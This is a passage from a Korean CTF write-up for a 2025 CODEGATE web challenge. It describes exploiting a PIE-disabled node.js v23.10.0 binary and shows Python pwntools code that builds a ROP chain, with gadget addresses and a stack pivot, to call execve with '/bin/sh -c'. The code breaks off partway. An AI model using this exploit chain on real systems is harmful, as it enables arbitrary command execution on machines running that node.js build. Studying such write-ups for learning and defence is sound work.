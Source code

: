 node.js 바이너리의 보호기법 ⇒ PIE가 꺼져있는 것을 확인 가능하다.

PIE가 비활성화 되어있기에 코드 영역 주소도 항상 같으므로 공격자는 쉽게 ROP 체인을 작성할 수 있다.

해당 챌린지에서는 23.10.0버전의 node.js를 사용하고 있기 때문에 해당 버전의 node.js 바이너리를 가지고와서 ROPgadget 주소를 찾아주었다.

![Find ROPgadget in node.js v23.10.0 ⇒ ex) pop rax ; ret](/[KR]%202025%20CODEGATE%20CTF%20Web%20Challenges%20Writeup%2025595ea211f580cca84cefe7f436db5f/image%2034.png)

Find ROPgadget in node.js v23.10.0 ⇒ ex) pop rax ; ret

페이로드는 아래의 레퍼런스와 @toasterpwn님께서 공유해주신 PoC코드를 참고하였다. (**thanks to @toasterpwn!**)

https://i0.rs/blog/engineering-a-rop-chain-against-node-js/

https://learnblockchain.cn/article/14186

아래는 ROP 체인을 작성하여 악성 `exploit.bin`파일을 만드는 코드이다.

```python
from pwn import *
import string
import requests
from urllib.parse import quote

def make_rop_chain():

    # All addresses must be valid UTF-8
    PIVOT_GADGET = 0x42b06b
    SIGNUM = 0x1289500  # must be equal to dword after PIVOT_GADGET
    RW_SECTION = 0x0000000006a9d000

    SYSCALL = 0x0000000000f339d8  # syscall
    POP_RAX = 0x0000000000ecb88a  # pop rax; ret
    POP_RDI = 0x00000000012273dd  # pop rdi; ret
    POP_RSI = 0x0000000000f66719  # pop rsi; ret
    POP_RDX = 0x000000000118de62  # pop rdx; ret
    MOV_GADGET = 0x0000000001478938  # mov qword ptr [rdi], rsi ; ret

    context.arch = "amd64"

    def gadget_write_at(addr, qword):
        if isinstance(qword, bytes):
            if len(qword) > 8:
                raise ValueError("qword cannot be larger than 8 bytes")
            qword = qword.ljust(8, b"\x00")
        yield POP_RDI
        yield addr
        yield POP_RSI
        yield qword
        yield MOV_GADGET

    def gadget_create_string(addr, s):
        s = s.encode() + b"\x00"
        for i in range(0, len(s), 8):
            yield from gadget_write_at(addr + i, s[i:i+8])

    if __name__ == "__main__":
        argv = [RW_SECTION+0x100, RW_SECTION+0x200, RW_SECTION+0x300]
        argv_arr = RW_SECTION

        content = flat([
            PIVOT_GADGET,
            SIGNUM,

            # Write execve() arguments
            *gadget_create_string(argv[0], "/bin/sh"),
            *gadget_create_string(argv[1], "-c"),
```